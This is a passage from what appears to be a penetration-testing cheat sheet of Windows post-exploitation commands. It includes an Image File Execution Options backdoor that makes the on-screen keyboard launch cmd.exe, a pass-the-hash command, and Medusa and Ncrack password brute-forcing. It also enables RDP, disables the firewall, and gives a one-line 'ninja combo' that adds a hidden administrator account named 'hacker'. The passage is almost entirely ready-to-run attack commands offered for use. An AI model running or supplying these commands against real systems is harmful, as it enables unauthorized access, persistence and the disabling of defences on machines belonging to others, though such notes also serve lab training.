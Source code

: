 	sc start <[VULNERABLE_SERVICE]>

<b>Win10:</b>

	reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "cmd.exe" /f

	Then ctrl+alt+canc and start virtual keyboard

# Pass the hash

	Export SMBHASH=<[HASH]>

	pth-winexe -U administrator% //<[IP]> cmd

# Cracking

<b>Medusa</b>

	medusa -h 10.11.1.227 -U lab-users.txt -P lab-passwords.txt -M ftp | grep "ACCOUNT FOUND"

<b>Ncrack</b> (FTP, SSH, TELNET, HTTP(S), POP3(S), SMB, RDP, VNC)

	ncrack -U <[USERS_LIST]> -P <[PASSWORDS_LIST]> ftp://<[IP]>

# Firewall

<b>Enable Remote Desktop:</b>

	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

	netsh firewall set service remotedesktop enable

<b>Enable Remote assistance:</b>

	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f

	netsh firewall set service remoteadmin enable

<b>Disable firewall:</b>

	netsh firewall set opmode disable

<b>One shot ninja combo (New Admin User, Firewall Off + RDP):</b>

	set CMD "net user hacker Hacker123 /add & net localgroup administrators hacker /add & net localgroup \"Remote Desktop Users\" 	hacker /add & reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall set opmode disable"

# Backdooring EXE Files
